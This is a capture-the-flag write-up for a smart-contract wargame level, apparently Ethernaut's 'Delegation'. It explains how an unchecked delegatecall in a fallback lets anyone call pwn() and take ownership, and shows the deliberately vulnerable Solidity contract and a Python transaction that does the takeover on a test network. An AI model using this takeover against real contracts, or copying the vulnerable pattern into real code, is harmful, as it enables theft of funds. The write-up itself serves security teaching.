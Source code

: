# 06 - Delegation

## Challenge

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

- Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

## Summary

There are 2 contracts here:

- `Delegate` - a contract that has a `pwn` function that sets the `owner` to `msg.sender`. Our goal is to call this function.
- `Delegation` - a contract that has a `fallback` function that calls `delegatecall` on the `Delegate` contract. We only have access to this contract. 

As per hint, let's first check out the [Solidity documentation](https://docs.soliditylang.org/en/v0.8.20/introduction-to-smart-contracts.html#delegatecall-and-libraries) on `delegatecall`.

> There exists a special variant of a message call, named `delegatecall` which is identical to a message call apart from the fact that the code at the target address is executed in the context (i.e. at the address) of the calling contract and `msg.sender` and `msg.value` do not change their values.
>
> This means that a contract can dynamically load code from a different address at runtime. Storage, current address and balance still refer to the calling contract, only the code is taken from the called address.

This means that the `Delegate` contract's code is executed in the context of the `Delegation` contract. From previous learnings, we already know that `fallback()` is invoked when a function is called on a contract that does not exist. In this case, we can call `pwn()` on the `Delegate` contract by invoking `fallback()` on the `Delegation` contract (use `send_transaction`). We need to send function signature of `pwn()` as `msg.data` so that code of `Delegate` is executed in the context of `Delegation`. This changes the ownership of `Delegation` to sender which is us.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0x61a228cec28588B7611535E3e92EE35Bc3Fe807F'
```

As explained, we get signature of `pwn()` and send this as data field when invoking `fallback()` on `Delegation` contract.

```py
>>> account.send_transaction(contract_addr, data=encode_with_signature("pwn()"), gas_limit=1000000)
2023-06-07 20:21:13.614 | INFO     | cheb3.account:send_transaction:103 - Transaction to 0x61a228cec28588B7611535E3e92EE35Bc3Fe807F: 0x54396f51c6a19c02ab7d505e556fd18b0ba1f788e40aa578398f951214dc75dd
AttributeDict({'blockHash': HexBytes('0x30d5fc1c74050b2441333733ac75badb18799879d17f296db1fe7282eb9127ad'), 'blockNumber': 9141647, 'contractAddress': None, 'cumulativeGasUsed': 20382073, 'effectiveGasPrice': 102, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 31204, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0x61a228cec28588B7611535E3e92EE35Bc3Fe807F', 'transactionHash': HexBytes('0x54396f51c6a19c02ab7d505e556fd18b0ba1f788e40aa578398f951214dc75dd'), 'transactionIndex': 63, 'type': 0})
```

The above line calls `send_transaction` on `Delegation` contract, which invokes `fallback()` with `msg.data` being `pwn()`. 

Finally, submit the instance to pass the level.

## Afterword

> Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.